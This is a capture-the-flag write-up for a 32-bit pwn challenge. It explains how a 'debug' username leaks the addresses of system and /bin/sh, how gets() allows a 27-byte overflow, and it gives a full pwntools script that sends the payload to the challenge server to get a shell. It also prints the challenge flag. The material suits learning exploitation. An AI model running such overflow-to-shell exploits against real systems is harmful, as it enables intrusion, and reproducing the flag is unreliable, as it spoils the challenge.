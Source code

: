 # Buffer-Overflow with a twist

**This challenge required you to find a correct username that would leak two addresses on the stack, performing a buffer-overflow and calling the leaked addresses.**

### Analyzing the binary

after running `readelf -s zero_cool | grep FUNC` we see two interesting functions
`username` and `password` 

Opening the binary in ghidra and looking at the disassembly from the function `username` we quickly get to a section that looks peculiar

![Username Disassembly](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/zerocool/username.png)

As we can see if we pass in the username `debug` we get where in memory the address of `system` is and where the address of `/bin/sh` is.

Now the program wants us to pass a password. Disassembling the function `password` we very quickly see that our input is passed to a
very dangerous function called `gets()` 


![Password Disassembly](https://github.com/ZeroCooL-555/CTF/blob/master/10an/pwn/zerocool/password.png)


explanation from the man page 

**Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely danger‐ous to use.**

Let's abuse `gets()`. After some trial and error the sweet spot is found to be `offset 27`. With all this information we are ready to move on to the attack phase.


### The Attack

Starting out we send the program a username in this case `debug` after that we grab the two leaked addresses. Now we are prompted for a password, we pass in our 27 A's and then call the first leaked address.
After having called the first address we add `4 bytes` worth of padding to be able to set the parameter for the first function. If done correctly we should have a call to `system` with the parameter `/bin/sh`.

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'i386'

elf = ELF('./zero_cool')
r = remote('0xa.is', 31338)

r.recvuntil('Username: ')
r.sendline('debug')

offset = 27

shell_func = r.recvline().decode('utf-8').split(': ')[1]
shell_func_param = r.recvline().decode('utf-8').split(': ')[1]

shell_func_addr = int(shell_func, 16)
shell_func_param_addr = int(shell_func_param, 16)

payload = [
        b"A"*offset,
        p32(shell_func_addr),
        b"A"*4,
        p32(shell_func_param_addr)
]

payload = b"".join(payload)
r.sendline(payload)
r.interactive()
```

### Flag: 10an{run_4nt1_v1ru5_g1v3_m3_5y5t3m5_d15pl4y_n0w}

